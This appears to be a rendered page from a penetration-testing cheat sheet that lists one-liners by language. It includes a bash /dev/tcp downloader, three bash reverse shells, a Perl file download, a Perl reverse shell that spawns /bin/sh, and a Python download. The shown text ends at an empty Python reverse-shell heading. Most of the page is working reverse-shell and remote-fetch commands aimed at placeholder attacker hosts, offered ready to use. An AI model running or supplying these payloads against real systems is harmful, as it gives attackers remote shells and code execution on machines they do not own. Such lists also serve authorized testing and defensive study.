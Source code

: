 Source code:

```
  #!/bin/bash
  read proto server path <<< "${1//"/"/ }"
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  while IFS= read -r line ; do 
      [[ "$line" == $'\r' ]] && break
  done <&3
  nul='\0'
  while IFS= read -d '' -r x || { nul=""; [ -n "$x" ]; }; do 
      printf "%s$nul" "$x"
  done <&3
  exec 3>&-
```

#### Reverse shell

```
bash -i >& /dev/tcp/<ip>/<port> 0>&1
0<&196;exec 196<>/dev/tcp/<ip>/<port>; sh <&196 >&196 2>&196
exec 5<>/dev/tcp/<ip>/<port>;cat <&5 | while read line; do $line 2>&5 >&5; done
```

## Perl

#### Download file

```
perl -e 'use File::Fetch;my $url="<url>";my $ff=File::Fetch->new(uri => $url);my $file=$ff->fetch() or die $ff->error;'
```

#### Reverse shell

```
perl -e 'use Socket;$i="<ip>";$p=<port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Python

#### Download file

```
python -c "import urllib;f=urllib.URLopener();f.retrieve('http://<url>','<dest>');"
```

#### Reverse shell
